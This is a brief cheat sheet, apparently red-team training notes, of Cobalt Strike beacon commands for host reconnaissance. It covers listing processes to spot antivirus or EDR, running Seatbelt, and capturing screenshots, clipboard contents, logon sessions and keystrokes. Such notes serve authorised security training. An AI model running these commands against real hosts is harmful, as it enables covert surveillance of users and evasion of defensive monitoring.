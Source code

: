 # Host Reconnaissance

# Identify running process like AV, EDR or any monitoring and logging solution

    beacon> ps

# Use Seatbealt to enumerate about system

    beacon> execute-assembly C:\Tools\Seatbelt\Seatbelt\bin\Release\Seatbelt.exe -group=system

# Screenshot, Clipboard, Keylogger and User Sessions of currently logged in user

    beacon> screenshot
    beacon> clipboard
    beacon> net logons

    beacon> keylogger
    beacon> job
    beacon> jobkill 3
